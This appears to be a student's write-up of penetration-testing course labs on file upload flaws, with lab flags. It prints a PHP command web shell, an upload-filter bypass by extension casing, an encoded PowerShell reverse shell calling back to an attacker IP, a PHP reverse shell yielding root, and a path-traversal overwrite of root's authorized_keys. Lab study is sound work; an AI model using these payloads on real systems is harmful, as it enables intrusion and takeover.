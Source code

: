 
# Using Executable Files


1. Follow the steps above on VM #1 and exploit the file upload vulnerability. The flag is located in the **C:\xampp\passwords.txt** file as a password for the _mountainadmin_ user.$

- Use upload to send simple_backdoor.pHP to site (php misspelling to get around upload filter mechanism)
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```

- Craft PowerShell one-liner using **pwsh** for a PS terminal in Kali
```powershell
# Don't forget to replace IP &/or port!!
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
```

- Copy results of $EncodedText and tack on as *cmd* parameter using **curl**
```bash
# Start nc listener in another tab
nc -nlvp 4444
# Abuse file upload
curl http://mountaindesserts.com/meteor/uploads/simple_backdoor.pHP?cmd=powershell%20-enc%20JABjAG....ACkA==
# In tab w/ listener, after connection.  NOTE Windows \
type ..\..\..\passwords.txt
```


> Answer:  OS{250ced38486095fb0e4de2c5f191e087}



2. The target VM #2 is running an instance of _TinyFileManager_. Disable Burp before you start to avoid issues with the web application. Log in to the web application at **hxxp://192.168.50.16/index.php** with the user **admin** and password **admin@123**. Find a way to get code execution by using an uploaded web shell. Display the contents of the **/opt/install.txt** file to get the flag.
   
- Copy the reverse shell **/usr/share/webshells/phpphp-reverse-shell.php** to current working directory and edit file to add your current IP and port of choice
- Login to website and upload the file (don't forget to rename extension to bypass .php filters jic)

![](9.3ex_fileUpload.png)
- In 1 tab start a nc listener on port set in the revshell.pHP file
- In 2nd tab, execute php payload
```bash
# tab 2
curl http://192.168.193.16/revshell.pHP

# tab 1
		listening on [any] 4444 ...
		connect to [192.168.45.202] from (UNKNOWN) [192.168.193.16] 37868
		Linux 2e5d4a2f3769 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64 Linux
		sh: w: not found
		uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
		/ # /bin/sh: can't access tty; job control turned off
	cat /opt/install.txt
		Hello admin team. We needed to reset all passwords to OS{30412148aa2ec715f1967e4c8d3e528d}.
	/ # exit
```

> Answer:  OS{30412148aa2ec715f1967e4c8d3e528d}



# Using Non-Executable Files

1. Use Burp and test uploading of txt file.  Send POST request to Burp's Repeater, rename uploaded filename, and test whether relative path throws an error
   ![](upload_outsideWebRoot.png)
   
2. Replicate a public/ private key
```bash
# here, we'll save key to file: fileupload
ssh-keygen

# result is a private (fileupload) and public (fileupload.pub) key pair

# copy the public key to authorized_keys
cat fileupload.pub > authorized_keys
```

3. Select 'authorized_keys' file to upload, Turn on Burp's Intercept, then hit Upload
4. Prepend the directory traversal sequence (**../../../../root/.ssh/**) to the filename to attempt to overwrite root's own authorized_keys file
![](file_upload_keys.png)

5. Attempt an SSH connection using your private key pair
```bash
# If connected to before, remove the previously saved host key
rm ~/.ssh/known_hosts

# Attempt SSH connection
ssh -i fileupload -p 2222 root@mountaindesserts.com

# Once connected cat file (it'll put you in root's home dir, but best get in habbit of using full path name for full OSCP points)
cat /root/flag.txt
```


> Answer:  OS{9d8bfff79dab8d7fee05e77ae73116ae}